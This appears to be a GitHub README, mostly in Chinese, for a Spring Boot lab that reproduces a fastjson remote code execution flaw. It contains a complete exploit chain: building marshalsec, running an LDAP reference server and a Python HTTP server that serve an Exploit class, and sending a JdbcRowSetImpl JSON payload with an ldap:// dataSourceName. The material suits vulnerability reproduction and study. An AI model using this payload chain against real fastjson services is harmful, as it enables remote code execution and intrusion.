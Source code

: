 # fastjson-rce
![](https://img.shields.io/badge/language-java-yellow)
![](https://img.shields.io/github/stars/dbgee/fastjson-rce)
![](https://img.shields.io/github/workflow/status/dbgee/fastjson-rce/Maven%20Package)

fastjson rce env based on springboot

## 环境说明
* Exploit.java  编译好的class 文件文件和利用工具在Exploit 目录下

* 利用工具也可以自行下载编译
  ```shell script
    git clone https://github.com/mbechler/marshalsec.git [克隆项目到本地]
    mvn clean package -DskipTests  [这条命令执行完之后会在target 目录生成我们需要的可执行文件：marshalsec-0.0.3-SNAPSHOT-all.jar]
  ```

## 使用步骤
1. java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer http://127.0.0.1:8081/#Exploit 10086 
2. python -m http.server 8081
3. 发送利用payload：{"@type": "com.sun.rowset.JdbcRowSetImpl","dataSourceName": "ldap://127.0.0.1:10086/Object","autoCommit": true}

## update info
通过H2 数据库，对数据做了持久化处理，可以保存提交的数据到服务端

## TODO
- [ ] 分析漏洞源码
- [ ] 分析补丁情况

## 参考文章
* https://mp.weixin.qq.com/s/TmltzIJmGqYJZ4q4Rm0V-g